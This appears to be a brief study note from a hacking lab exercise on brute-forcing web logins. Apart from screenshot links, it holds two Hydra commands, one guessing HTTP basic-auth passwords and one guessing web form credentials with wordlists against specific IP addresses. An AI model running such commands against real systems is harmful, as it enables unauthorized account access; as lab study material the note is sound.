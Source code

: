 ___

# GET

![[Pasted image 20241004131226.png]]

![[Pasted image 20241004131402.png]]

![[Pasted image 20241004131415.png]]

```bash
hydra -l basic-auth-user -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 83.136.254.47 http-get / -s 52283
```

![[Pasted image 20241004131840.png]]

![[Pasted image 20241004132934.png]]

# POST

![[Pasted image 20241004134542.png]]

![[Pasted image 20241004134603.png]]

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -f 94.237.49.214 -s 37645 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

![[Pasted image 20241004134809.png]]

